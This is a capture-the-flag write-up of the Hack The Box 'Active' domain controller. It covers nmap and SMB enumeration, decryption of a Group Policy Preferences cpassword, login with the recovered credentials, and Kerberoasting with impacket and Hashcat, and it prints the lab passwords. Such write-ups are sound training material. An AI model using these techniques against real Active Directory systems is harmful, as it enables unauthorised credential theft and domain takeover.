





# 🏃♂ Active Writeup



We started off with the usual nmap scan using:

```
nmap -sV -sC 10.129.227.160 > notes
```

Once this completes and we open our notes we can see that there are a whole lot of ports open. Does this mean we go check every single one? Hell no. Lets look and see what the ports are for and we can see how they are working together.

```
Nmap scan report for 10.129.227.160
Host is up (0.086s latency).
Not shown: 982 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-29 00:10:33Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-05-29T00:11:32
|_  start_date: 2022-05-29T00:09:00
```

We can see that this is a Windows Server 2008 machine and it has SMB, ports 445 and 139 are open. We can also see that it is probably a domain controller because it has AD LDAP running along with Kerberos, AD's authentication ticketing system.

So we know its Windows so we can't approach it the same way we would a Linux machine. To enumerate some more lets run enum4linux.

After running this we can see that there are a few shares that are up, after testing for NULL sessions we know that we only have access to one share, Replication.



Because there was a bunch of random directories and files in this share I went ahead and downloaded them all using this one-liner:

```
smbclient '\\10.129.227.160\Replication' -N -c 'prompt OFF;recurse ON;cd 'active.htb\';lcd '<dir to save to>';mget *'
```

After looking through a bit we can see there is  interesting data in 'active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml'

```
<?xml version="1.0" encoding="utf-8"?>
	<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
	</Groups>
```

In this we can see that this contains a username for an account on the box plus a variable called cpassword. After some research we can see that its a Group Policy Preference file and cpassword can be decrypted very easily by a tool called gpp-decrypt, its built into Parrot and Kali OSs.

After running:



We get the password 'GPPstillStandingStrong2k18'. Lets use it to try to connect to other shares...Bingo. We now have access to the Users share.

```
smbclient //10.129.227.160/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
```

We can get the user.txt file from here.

Side Note: I couldn't get the user.txt file for some reason with smbclient so I ended up using smbmap to grab it.

Ok so back on track now. We need to get Administrator now. After running through a few possible options I realized we are going to need to utilize kerberoasting to get the Administrator account.

For this we are going to use the all might impacket repo. GetUserSPNs.py to be exact. With this we are going to try to grab the Administrator ticket and crack it with Hashcat.



YES!!

Now that we got the Administrator ticket saved we are going to run Hashcat and crack it open like an egg.



And bingo. The password is 'Ticketmaster1968'. Now we can just login and grab the root.txt file and we are done.

PWNED!!
